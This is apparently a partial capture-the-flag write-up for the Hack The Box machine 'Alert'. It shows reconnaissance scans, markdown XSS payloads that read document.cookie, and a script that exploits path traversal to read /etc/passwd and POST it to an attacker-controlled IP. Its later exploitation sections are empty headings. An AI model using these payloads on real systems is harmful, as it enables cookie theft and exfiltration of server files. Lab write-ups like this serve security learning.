









# Reconnaissance
### Front-End Recon


## Web Application Enumeration


### Fingerprinting Web Servers
```bash
$ nmap -sC -sV -p$(nmap --min-rate=10000 -T4 10.10.11.44 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.11.44 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 11:25 PST
Nmap scan report for 10.10.11.44
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.28 seconds

```
### Inspecting HTTP Response Headers and Sitemaps
```bash
$ curl -I alert.htb
HTTP/1.1 302 Found
Date: Mon, 06 Jan 2025 02:29:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: index.php?page=alert
Content-Type: text/html; charset=UTF-8
```
```bash
$ curl -v alert.htb 
* Host alert.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.44
*   Trying 10.10.11.44:80...
* Connected to alert.htb (10.10.11.44) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: alert.htb
> User-Agent: curl/8.11.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 302 Found
< Date: Mon, 06 Jan 2025 02:29:57 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Location: index.php?page=alert
< Content-Length: 660
< Content-Type: text/html; charset=UTF-8
< 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
            </nav>
    <div class="container">
            </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>

```
## Mapping and Discovery
### Subdomain Enumeration 
```bash
$ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://alert.htb -H "HOST: FUZZ.alert.htb" -fw 20 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://alert.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.alert.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 20
________________________________________________

statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 239ms]
:: Progress: [19966/19966] :: Job [1/1] :: 31 req/sec :: Duration: [0:03:12] :: Errors: 0 ::
```
### Adding Localhost
```bash
$ echo "10.10.11.44 alert.htb" | sudo tee -a /etc/hosts 
```
### Directory Listings
```bash
─$ feroxbuster -u http://alert.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt --scan-dir-listings 
                                                                                                                                                                                   
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://alert.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 📂  Scan Dir Listings     │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      271c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      182l      385w     3622c http://alert.htb/css/style.css
301      GET        9l       28w      308c http://alert.htb/uploads => http://alert.htb/uploads/
301      GET        9l       28w      304c http://alert.htb/css => http://alert.htb/css/
302      GET       23l       48w      660c http://alert.htb/index.php => index.php?page=alert
302      GET       23l       48w      660c http://alert.htb/ => index.php?page=alert
200      GET      182l      385w     3622c http://alert.htb/css/style
301      GET        9l       28w      309c http://alert.htb/messages => http://alert.htb/messages/   
```
### Debugging Page Content



### Technology Stack Identification


## Vulnerability Analysis
### Security Testing
### XSS in Markdown
```bash
# payload
[a](javascript:prompt(document.cookie))
[b](j a v a s c r i p t:prompt(document.cookie))
[c](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[d](javascript:window.onerror=alert;throw%201)
```

### Contact Endpoint

```bash
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.44 - - [06/Jan/2025 00:02:00] "GET /grabber.php?c=%27+document.domain&lt;/script&gt; HTTP/1.1" 200 -
```
### Vulnerability Identification
```js
<script>
fetch("http://alert.htb/messages.php?file=../../../../etc/passwd")
    .then(response => response.text())  // Corrected the arrow function and response parsing
    .then(data => {
        // Replace 'ip' with your local IP address
        fetch("http://10.10.14.100:8888/", {  // Replace with your actual IP address
            method: "POST",
            headers: {
                'Content-Type': 'text/plain',  // Ensure the content type is correct
            },
            body: data  // Send the fetched data as the body of the POST request
        });
    })
    .catch(error => {
        console.error("Error:", error);  // Handle errors
    });
</script>

```
## Exploitation
### Post Exploitation Enumeration 
### Lateral Movement 
### Gaining Root 

## Post-Exploitation
### Flags
### Covering Tracks 

## Reporting
### Summary
